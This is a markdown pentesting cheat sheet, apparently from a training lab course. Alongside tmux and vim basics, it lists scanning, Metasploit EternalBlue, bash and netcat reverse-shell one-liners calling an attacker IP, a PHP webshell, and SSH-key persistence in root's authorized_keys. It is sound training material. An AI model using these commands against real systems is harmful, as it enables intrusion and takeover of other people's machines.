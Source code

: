 # Cheatsheet offensive

## Basic Tools

| **Command** | **Description** |
| :--- | :--- |
| **General** |  |
| `sudo openvpn user.ovpn` | Connect to VPN |
| `ifconfig`/`ip a` | Show our IP address |
| `netstat -rn` | Show networks accessible via the VPN |
| `ssh user@10.10.10.10` | SSH to a remote server |
| `ftp 10.129.42.253` | FTP to a remote server |
| **tmux** |  |
| `tmux` | Start tmux |
| `ctrl+b ctrl+c` | tmux: new window |
| `ctrl+b 1` | tmux: switch to window \(`1`\) |
| `ctrl+%` | tmux: split pane vertically |
| `ctrl+"` | tmux: split pane horizontally |
| `ctrl+->` | tmux: switch to the right pane |
| **Vim** |  |
| `vim file` | vim: open `file` with vim |
| `esc+i` | vim: enter `insert` mode |
| `esc` | vim: back to `normal` mode |
| `x` | vim: Cut character |
| `dw` | vim: Cut word |
| `dd` | vim: Cut full line |
| `yw` | vim: Copy word |
| `yy` | vim: Copy full line |
| `p` | vim: Paste |
| `:1` | vim: Go to line number 1. |
| `:w` | vim: Write the file 'i.e. save' |
| `:q` | vim: Quit |
| `:q!` | vim: Quit without saving |
| `:wq` | vim: Write and quit |

## Pentesting

| **Command** | **Description** |
| :--- | :--- |
| **Service Scanning** |  |
| `nmap 10.129.42.253` | Run nmap on an IP |
| `nmap -sV -sC -p- 10.129.42.253` | Run an nmap script scan on an IP |
| `locate scripts/citrix` | List various available nmap scripts |
| `nmap --script smb-os-discovery.nse -p445 10.10.10.40` | Run an nmap script on an IP |
| `netcat 10.10.10.10 22` | Grab banner of an open port |
| `smbclient -N -L \\\\10.129.42.253` | List SMB Shares |
| `smbclient \\\\10.129.42.253\\users` | Connect to an SMB share |
| `snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0` | Scan SNMP on an IP |
| `onesixtyone -c dict.txt 10.129.42.254` | Brute force SNMP secret string |
| **Web Enumeration** |  |
| `gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt` | Run a directory scan on a website |
| `gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt` | Run a sub-domain scan on a website |
| `curl -IL https://www.inlanefreight.com` | Grab website banner |
| `whatweb 10.10.10.121` | List details about the webserver/certificates |
| `curl 10.10.10.121/robots.txt` | List potential directories in `robots.txt` |
| `ctrl+U` | View page source \(in Firefox\) |
| **Public Exploits** |  |
| `searchsploit openssh 7.2` | Search for public exploits for a web application |
| `msfconsole` | MSF: Start the Metasploit Framework |
| `search exploit eternalblue` | MSF: Search for public exploits in MSF |
| `use exploit/windows/smb/ms17_010_psexec` | MSF: Start using an MSF module |
| `show options` | MSF: Show required options for an MSF module |
| `set RHOSTS 10.10.10.40` | MSF: Set a value for an MSF module option |
| `check` | MSF: Test if the target server is vulnerable |
| `exploit` | MSF: Run the exploit on the target server is vulnerable |
| **Using Shells** |  |
| `nc -lvnp 1234` | Start a `nc` listener on a local port |
| `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'` | Send a reverse shell from the remote server |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.10.10 1234 >/tmp/f` | Another command to send a reverse shell from the remote server |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/bash -i 2>&1\|nc -lvp 1234 >/tmp/f` | Start a bind shell on the remote server |
| `nc 10.10.10.1 1234` | Connect to a bind shell started on the remote server |
| `python -c 'import pty; pty.spawn("/bin/bash")'` | Upgrade shell TTY \(1\) |
| `ctrl+z` then `stty raw -echo` then `fg` then `enter` twice | Upgrade shell TTY \(2\) |
| `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php` | Create a webshell php file |
| `curl http://SERVER_IP:PORT/shell.php?cmd=id` | Execute a command on an uploaded webshell |
| **Privilege Escalation** |  |
| `./linpeas.sh` | Run `linpeas` script to enumerate remote server |
| `sudo -l` | List available `sudo` privileges |
| `sudo -u user /bin/echo Hello World!` | Run a command with `sudo` |
| `sudo su -` | Switch to root user \(if we have access to `sudo su`\) |
| `sudo su user -` | Switch to a user \(if we have access to `sudo su`\) |
| `ssh-keygen -f key` | Create a new SSH key |
| `echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys` | Add the generated public key to the user |
| `ssh root@10.10.10.10 -i key` | SSH to the server with the generated private key |
| **Transferring Files** |  |
| `python3 -m http.server 8000` | Start a local webserver |
| `wget http://10.10.14.1:8000/linpeas.sh` | Download a file on the remote server from our local machine |
| `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh` | Download a file on the remote server from our local machine |
| `scp linenum.sh user@remotehost:/tmp/linenum.sh` | Transfer a file to the remote server with `scp` \(requires SSH access\) |
| `base64 shell -w 0` | Convert a file to `base64` |
| `echo f0VMR...SNIO...InmDwU \| base64 -d > shell` | Convert a file from `base64` back to its orig |
| `md5sum shell` | Check the file's `md5sum` to ensure it converted correctly |

